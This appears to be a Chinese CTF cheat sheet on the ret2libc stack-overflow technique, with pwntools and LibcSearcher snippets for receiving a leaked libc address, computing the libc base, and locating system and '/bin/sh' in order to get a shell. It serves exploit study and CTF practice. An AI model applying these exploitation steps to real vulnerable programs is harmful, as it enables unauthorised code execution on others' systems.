 ```yaml
---
title: ret2libc
category: 栈溢出
---
```


### 一般步骤

1. 泄露 libc 地址
2. 计算 libc 基址与其他函数的地址
3. get shell

### 接收被泄露的 libc 地址
- 32 位程序

```python
address = u32(io.recvuntil('\xf7')[-4:])
log.success('address -> ' + hex(address))
```

- 64 位程序

```python
address = u64(io.recvuntil('\x7f')[-6:].ljust(8, '\x00'))
log.success('address -> ' + hex(address))
```

### 计算 libc 基址与其他函数的地址

- ELF

```python
libc_base = address - libc.sym['function_name']
system_addr = libc_base + libc.sym['system']
str_bin_sh = libc_base + libc.search('/bin/sh').next()
log.success('libc_base -> ' + hex(libc_base))
```

- LibcSearcher

```python
libc = LibcSearcher('function_name', address)
libc_base = address - libc.dump('function_name')
system_addr = libc_base + libc.dump('system')
str_bin_sh = libc_base + libc.dump('str_bin_sh')
log.success('libc_base -> ' + hex(libc_base))
```

### 注意事项

- 下载题目文件时应注意文件中是否提供了相应的 libc 文件。若已提供相应的 libc 文件，则在调试时使用 pwntools 的 ELF 函数直接绑定该 libc。若没有提供相应的 libc 文件，则需要使用 LibcSearcher 库进行 libc 匹配。
